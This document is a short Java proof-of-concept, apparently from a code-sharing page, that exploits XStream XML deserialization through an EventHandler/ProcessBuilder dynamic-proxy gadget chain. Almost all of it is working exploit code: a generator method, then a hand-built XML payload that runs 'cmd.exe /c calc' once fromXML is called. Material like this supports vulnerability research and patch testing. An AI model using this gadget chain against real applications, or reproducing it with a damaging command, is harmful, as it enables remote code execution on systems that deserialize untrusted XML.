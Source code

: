 POC
---

    package com.bigo;

    import com.thoughtworks.xstream.XStream;

    import java.beans.EventHandler;
    import java.io.IOException;
    import java.util.Set;
    import java.util.TreeSet;

    /**
     * Created by cfchi on 2019/7/26.
     */
    public class Main {
        public static String expGen(){
            XStream xstream = new XStream();
            Set<Comparable> set = new TreeSet<Comparable>();
            set.add("foo");
            set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
            String payload = xstream.toXML(set);
            System.out.println(payload);
            return payload;
        }
        public static void main(String[] args) throws IOException {
            expGen();
            XStream xStream = new XStream();
            String payload = "<sorted-set>\n" +
                    "    <string>foo</string>\n" +
                    "    <dynamic-proxy>\n" +
                    "    <interface>java.lang.Comparable</interface>\n" +
                    "        <handler class=\"java.beans.EventHandler\">\n" +
                    "            <target class=\"java.lang.ProcessBuilder\">\n" +
                    "                <command>\n" +
                    "                    <string>cmd.exe</string>\n" +
                    "                    <string>/c</string>\n" +
                    "                    <string>calc</string>\n" +
                    "                </command>\n" +
                    "            </target>\n" +
                    "     <action>start</action>"+
                    "        </handler>\n" +
                    "    </dynamic-proxy>\n" +
                    "</sorted-set>\n";
           xStream.fromXML(payload);
        }
    }